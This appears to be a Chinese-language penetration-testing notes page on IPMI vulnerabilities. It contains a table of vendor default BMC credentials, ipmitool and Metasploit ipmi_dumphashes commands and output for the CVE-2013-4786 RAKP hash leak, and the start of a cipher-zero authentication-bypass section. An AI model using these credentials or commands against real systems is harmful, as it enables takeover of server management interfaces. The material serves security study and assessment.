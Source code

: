 #### [](#IPMI-接口漏洞 "IPMI 接口漏洞")IPMI 接口漏洞

IPMI（Intelligent PlatformManagement Interface）智能平台管理接口，原本是一种 Intel 架构的企业系统的周边设备所采用的一种工业标准。IPMI 亦是一个开放的免费标准，用户无需支付额外的费用即可使用此标准。

IPMI 能够横跨不同的操作系统、固件和硬件平台，可以智能的监视、控制和自动回报大量服务器的运行状况，以降低服务器系统成本。IPMI 基于 UDP 协议进行传输，基于该协议建立的远程管理控制服务，默认绑定在 623 端口。

*   大部分设备都存在默认账号和密码。

<table><thead><tr><th>设备</th><th>默认用户名</th><th>默认密码</th></tr></thead><tbody><tr><td><strong>HP</strong> Integrated Lights Out (iLO)</td><td>Administrator</td><td>8 位随机字符</td></tr><tr><td><strong>Dell</strong> Remote Access Card (iDRAC, DRAC)</td><td>root</td><td>calvin</td></tr><tr><td><strong>IBM</strong> Integrated Management Module (IMM)</td><td>USERID</td><td>PASSW0RD (with a zero)</td></tr><tr><td><strong>Fujitsu</strong> Integrated Remote Management Controller</td><td>admin</td><td>admin</td></tr><tr><td><strong>Supermicro</strong> IPMI (2.0)</td><td>ADMIN</td><td>ADMIN</td></tr><tr><td><strong>Oracle/Sun</strong> Integrated Lights Out Manager (ILOM)</td><td>root</td><td>changeme</td></tr><tr><td><strong>ASUS</strong> iKVM BMC</td><td>admin</td><td>admin</td></tr><tr><td><strong>Huawei</strong> Intelligent Baseboard Management Controller(iBMC)</td><td>root</td><td>Huawei12#$</td></tr></tbody></table>

*   [CVE-2013-4786](http://fish2.com/ipmi/remote-pw-cracking.html)：IPMI 2.0 RAKP 密码哈希泄露
    
    在 IPMI RAKP 消息 2 回复中包含获得 HMAC，通过本地爆破可以得到密码。
    
    ```
    $ ipmitool -I lanplus -v -v -v -U ADMIN -P fluffy-wuffy -H 192.168.8.117 chassis identify
    [...]
    Key exchange auth code [sha1] : 0xede8ec3caeb235dbad1210ef985b1b19cdb40496
    [...]
    ```
    
    Metasploit 供了扫描模块 auxiliary/scanner/ipmi/ipmi_dumphashes。
    
    ```
    msf> use auxiliary/scanner/ipmi/ipmi_dumphashes
    msf auxiliary(ipmi_dumphashes) > set RHOSTS 10.0.0.0/24
    msf auxiliary(ipmi_dumphashes) > set THREADS 256
    msf auxiliary(ipmi_dumphashes) > run
    [ ] 10.0.0.59 root:266ead5921000000....000000000000000000000000000000001404726f6f74:eaf2bd6a5 3ee18e3b2dfa36cc368ef3a4af18e8b
    [ ] 10.0.0.59 Hash for user 'root' matches password 'calvin'
    [ ] 10.0.0.59 :408ee18714000000d9cc....000000000000000000000000000000001400:93503c1b7af26abee 34904f54f26e64d580c050e
    [ ] 10.0.0.59 Hash for user '' matches password 'admin'
    ```
    
*   [ipmi_cipher_zero](http://fish2.com/ipmi/cipherzero.html)
    
    远程攻击者可通过使用密码套件 0（又名 cipher zero）和任意的密码，利用该漏洞绕过身份认证，执行任意 IPMI 命令。IPMI 2.0 使用 cipher zero 加密组件时，攻击者只需要知道一个有效的用户名就可以接管 IPMI 的功能。
    
    正常状态下，使用错误的账户是不能建立会话的。
    
    ```
    $ ipmitool -I lanplus -H 10.0.0.99 -U Administrator -P FluffyWabbit user list
    Error: Unable to establish IPMI v2 / RMCP session
    Get User Access command failed (channel 14, user 1)
    ```
    